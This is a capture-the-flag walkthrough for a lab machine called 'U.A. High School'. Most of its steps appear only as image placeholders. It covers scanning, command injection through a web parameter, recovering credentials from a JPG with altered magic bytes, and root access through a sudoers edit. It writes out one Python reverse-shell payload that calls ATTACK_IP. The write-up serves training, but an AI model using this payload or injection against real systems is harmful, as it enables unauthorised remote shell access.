# U.A. High School







## Enumeration

Check out webpage:


Nmap Results:



Gobuster Results:



Ffuf Results:



Nikto Results:



## Point of Entry




Command Injection:



Get python reverse shell from https://www.revshells.com






```
http://MACHINE_IP/assets/index.php?cmd=python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACK_IP",4445));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

Start a listener on attack machine:



Use command injection in web browser and await connection:



Find images:



## Interactive Shell



Download Images:



Examine files:







Use wiki's list of file signatures to change data type to match jpg magic numbers:

https://en.wikipedia.org/wiki/List_of_file_signatures




Resulting Image:




Extract creds:




Repeated the process with yuei.jpg - no useful reults



## Hidden Content

Find passphrase in "Hidden_Content"




## User info



## Privesc

`sudo -l` results:



Change /etc/sudoers with feedback.sh and gain root shell:



Complete!


# References

https://www.revshells.com

https://en.wikipedia.org/wiki/List_of_file_signatures